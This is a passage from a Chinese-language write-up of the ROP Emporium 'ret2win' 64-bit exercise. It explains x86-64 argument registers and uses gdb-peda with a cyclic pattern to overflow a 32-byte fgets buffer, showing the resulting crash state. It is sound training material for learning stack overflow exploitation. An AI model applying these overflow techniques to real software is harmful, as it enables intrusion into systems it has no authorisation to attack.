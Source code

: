 ```text
   0x000000000040082f <+30>:    pop    rbp
   0x0000000000400830 <+31>:    ret
End of assembler dump.
```

首先与 32 位不同的是参数传递，64 位程序的前六个参数通过 RDI、RSI、RDX、RCX、R8 和 R9 传递。所以缓冲区大小参数通过 rdi 传递给 `fgets()`，大小为 32 字节。

而且由于 ret 的地址不存在，程序停在了 `=> 0x400810 <pwnme+91>: ret` 这一步，这是因为 64 位可以使用的内存地址不能大于 `0x00007fffffffffff`，否则就会抛出异常。

```text
gdb-peda$ r
Starting program: /home/firmy/Desktop/rop_emporium/ret2win/ret2win
ret2win by ROP Emporium
64bits

For my first trick, I will attempt to fit 50 bytes of user input into 32 bytes of stack buffer;
What could possibly go wrong?
You there madam, may I have your input please? And don't worry about null bytes, we're using fgets!

> AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbA

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
RAX: 0x7fffffffe400 ("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAb")
RBX: 0x0
RCX: 0x1f
RDX: 0x7ffff7dd4710 --> 0x0
RSI: 0x7fffffffe400 ("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAb")
RDI: 0x7fffffffe401 ("AA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAb")
RBP: 0x6141414541412941 ('A)AAEAAa')
RSP: 0x7fffffffe428 ("AA0AAFAAb")
RIP: 0x400810 (<pwnme+91>:      ret)
R8 : 0x0
R9 : 0x7ffff7fb94c0 (0x00007ffff7fb94c0)
R10: 0x602260 ("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbA\n")
R11: 0x246
R12: 0x400650 (<_start>:        xor    ebp,ebp)
R13: 0x7fffffffe510 --> 0x1
R14: 0x0
R15: 0x0
EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x400809 <pwnme+84>: call   0x400620 <fgets@plt>
   0x40080e <pwnme+89>: nop
   0x40080f <pwnme+90>: leave  
=> 0x400810 <pwnme+91>: ret
   0x400811 <ret2win>:  push   rbp
   0x400812 <ret2win+1>:        mov    rbp,rsp
   0x400815 <ret2win+4>:        mov    edi,0x4009e0
   0x40081a <ret2win+9>:        mov    eax,0x0
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffe428 ("AA0AAFAAb")
0008| 0x7fffffffe430 --> 0x400062 --> 0x1f8000000000000
0016| 0x7fffffffe438 --> 0x7ffff7a41f6a (<__libc_start_main+234>:       mov    edi,eax)
0024| 0x7fffffffe440 --> 0x0
0032| 0x7fffffffe448 --> 0x7fffffffe518 --> 0x7fffffffe870 ("/home/firmy/Desktop/rop_emporium/ret2win/ret2win")
0040| 0x7fffffffe450 --> 0x100000000
0048| 0x7fffffffe458 --> 0x400746 (<main>:      push   rbp)
0056| 0x7fffffffe460 --> 0x0
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
```